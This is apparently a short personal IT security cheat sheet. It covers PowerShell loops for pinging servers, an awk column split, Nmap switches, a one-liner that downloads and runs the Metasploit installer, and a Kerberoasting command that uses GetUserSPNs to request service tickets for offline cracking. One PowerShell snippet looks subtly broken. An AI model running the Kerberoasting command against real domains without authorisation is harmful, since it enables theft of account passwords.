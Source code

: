 # **ITSEC Notes**

## Powershell

### Ping a List of Computers

```
$ServerName = Get-Content "c:\Computers.txt"  
  
foreach ($Server in $ServerName) {  
  
        if (test-Connection -ComputerName $Server -Count 2 -Quiet ) {   
          
            "$Server is Pinging "  
          
                    } else  
                      
                    {"$Server not pinging"  
              
                    }      
          
}
```

### Get IPv4 Address from a List
```
$Servername = Get-Content "C:\Computers.txt" 

ForEach ($Server in $Servername) {

 (Get-ADComputer -Properties IPv4Address).IPv4Address

 }
 ```

## Unix Commands

### Print/Split Certain Columns, Space delimited -F ' ' / Column 1 $1  

```
awk -F ' ' '{print $1}' Macs.txt > MacsNamesOnly.txt
```

## Nmap

### Useful Switches 
```
-p- all ports
--open only show open ports
-iL use a target list
```

## Metasploit

### Install Metasploit
````
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && chmod 755 msfinstall && ./msfinstall
````

## Kerberoasting
```
python GetUserSPNs.py -debug -request -outputfile kerberoasting.txt -dc-ip 1.1.1.1 -target-domain domain.local domain/user:password
```
